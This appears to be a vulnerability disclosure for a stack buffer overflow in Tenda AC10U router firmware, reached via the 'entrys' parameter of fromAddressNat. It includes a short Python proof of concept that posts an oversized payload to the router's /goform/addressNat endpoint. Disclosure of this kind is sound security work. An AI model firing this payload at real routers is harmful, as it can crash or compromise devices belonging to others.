 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the entrys parameter in the fromAddressNat function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "fromAddressNat" retrieves the parameter "entrys" using "websGetVar", the value of "entrys" is formatted using the sprintf function, concatenated with "%s;%s" strings, and stored in "list". This concatenation mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the size of "list".

![1705405115582](image/fromAddressNat/1705405115582.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/addressNat'
payload = {
    "entrys": 'a'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)

```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
